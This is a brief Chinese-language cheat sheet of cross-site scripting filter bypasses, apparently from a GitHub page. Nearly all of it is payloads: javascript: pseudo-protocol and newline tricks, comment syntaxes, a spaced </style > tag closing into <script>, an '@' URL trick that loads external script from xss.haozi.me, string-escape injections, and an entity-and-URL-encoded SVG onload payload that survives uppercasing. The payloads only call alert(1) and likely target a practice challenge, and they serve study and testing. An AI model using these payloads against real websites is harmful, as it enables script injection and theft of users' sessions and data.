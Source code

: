 **javascript伪协议绕过**

无法闭合双引号的情况下,就无法使用 onclick 等事件,只能伪协议绕过,或者调用外部 js
```js
换行绕过正则匹配
onmousedown
=alert(1)
```
```js
注释符
// 单行注释
<!-- --!> 注释多行内容
<!-- --> 注释多行内容
<-- --> 注释多行内容
<-- --!> 注释多行内容
--> 单行注释后面内容
/* */ 多行注释
有时还可以利用浏览器的容错性,不需要注释
```
```js
闭合标签空格绕过
</style ><script>alert(1)</script>
```

```
@ 符号绕过 url 限制
例如:https://www.segmentfault.com@xss.haozi.me/j.js
其实访问的是 @ 后面的内容
```
```
") 逃逸函数后接分号
例:");alert(1)//
```
```
绕过转义限制
例:
\")
alert(1) //
```

**输入会被大写化**

先把纯文本字符转换为HTML实体字符,然后对其进行URL编码,最后用SVG标记的onload参数输出
```html
<svg onload=%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x27%3B%26%23x48%3B%26%23x69%3B%26%23x20%3B%26%23x4D%3B%26%23x6F%3B%26%23x6D%3B%26%23x27%3B%26%23x29%3B>
```

